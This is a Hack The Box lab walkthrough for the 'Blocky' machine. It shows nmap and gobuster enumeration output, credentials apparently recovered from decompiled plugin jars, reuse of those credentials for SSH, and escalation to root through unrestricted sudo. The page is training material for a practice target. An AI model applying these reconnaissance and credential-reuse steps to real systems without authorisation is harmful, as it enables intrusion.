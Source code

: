 ```yaml
---
layout: walkthrough
title: Blocky
description: HTB walkthrough
logo: /assets/img/walkthroughs/blocky_logo.png
show-avatar: false
permalink: /walkthroughs/blocky.html
OS: Linux
difficulty: Easy
release: 21 Jul 2017
creator: <a href="https://www.hackthebox.eu/home/users/profile/2904">Arrexel</a>
cleared: 3 Nov 2019
published: 2019 11 03
---
```


<h2 align="center">Enumeration</h2>
Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Fri Nov  1 19:17:36 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.37
Nmap scan report for 10.10.10.37
Host is up (0.098s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 19:20:49 2019 -- 1 IP address (1 host up) scanned in 192.23 seconds

```

We see there is a wordpress page running on port 80

<img src="/assets/img/walkthroughs/blocky_wordpress.png" alt="wordpress" style="zoom: 50%;" />



Running 

```sh
gobuster dir -w <wordlist> -x .php,.txt -o <outputfile> -u http://10.10.10.37
```

with the appropriate wordlist yielded the following results

```sh
/index.php (Status: 301)
/wiki (Status: 301)
/wp-content (Status: 301)
/wp-login.php (Status: 200)
/plugins (Status: 301)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-trackback.php (Status: 200)
/wp-admin (Status: 301)
/phpmyadmin (Status: 301)
/wp-signup.php (Status: 302)
/server-status (Status: 403)
```

We see several interesting possibilities for further enumeration and exploit paths, what we need  however is in /plugins

![plugins](/assets/img/walkthroughs/blocky_plugins.png)

downloading both these files and looking at them with **jd-gui** shows us the following

![blockycore](/assets/img/walkthroughs/blocky_blockycore.png)

This login and password will get us into the phpmyadmin portal, where we can look at the mySQL wordpress users table and find there is a user named **notch**, or more simply we can direct our browser to http://10.10.10.37/?author=1 and get the user name there.

This user and pass gives us login to FTP and SSH. We obviously login to SSH. We can then read the user.txt file.

Gaining root is as simple as running "sudo -l" and seeing the notch can run everything as root, and then switching to root, which we can do as we have notch's password

```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# 

```

which gives us access to the root.txt flag.
